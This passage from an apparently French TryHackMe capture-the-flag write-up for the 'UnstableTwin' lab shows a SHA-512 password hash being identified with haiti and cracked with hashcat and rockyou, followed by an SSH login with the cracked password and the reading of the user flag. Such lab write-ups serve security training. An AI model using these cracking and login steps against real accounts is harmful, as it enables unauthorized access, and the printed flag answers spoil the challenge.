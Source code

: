 
On a les données extraites.  

En tout on compte 5 utilisateurs.   

**What colour is Vincent?**

On voit que la couleur de Vincent est orange.  

**What is Mary Ann's SSH password**  

Dans la base donnée on a un mot de passe en hash qui est : eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422cf984324f645b84427343f4

```bash
tim@kali:~/Bureau/tryhackme/write-up$ haiti  eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422cf984324f645b84427343f4
SHA-512 [HC: 1700] [JtR: raw-sha512]
SHA3-512 [HC: 17600] [JtR: raw-sha3]
```

Avec haiti on remarque que le hash est du SHA-512   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hashcat -m 1700 -a 0 hash /usr/share/wordlists/rockyou.txt --quiet
eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422cf984324f645b84427343f4:experiment
```

On casse le hash et on trouve le mot de passe.

Le mot de passe ssh de mary ann est : experiment.   

**User Flag**  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh mary_ann@unstabletwin.thm
The authenticity of host 'unstabletwin.thm (10.10.149.235)' can't be established.
ECDSA key fingerprint is SHA256:WrxENvyCyn7qV22+7snQxO8tTSOptNI4dnZ764XnDhk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'unstabletwin.thm,10.10.149.235' (ECDSA) to the list of known hosts.
mary_ann@unstabletwin.thm's password: 
Last login: Sun Feb 14 09:56:18 2021 from 192.168.20.38
Hello Mary Ann
[mary_ann@UnstableTwin ~]$ ls
server_notes.txt  user.flag
[mary_ann@UnstableTwin ~]$ cat user.flag
THM{Mary_Ann_notes}
```

On se connecte sur le compte de mary_ann, on trouve le fichier user.flag.  
On lit le fichier user.flag et on a notre flag.  
Le flag est : THM{Mary_Ann_notes}  

**Final Flag**

```bash
[mary_ann@UnstableTwin ~]$ cat server_notes.txt 
Now you have found my notes you now you need to put my extended family together.

We need to GET their IMAGE for the family album.  These can be retrieved by NAME.
```   

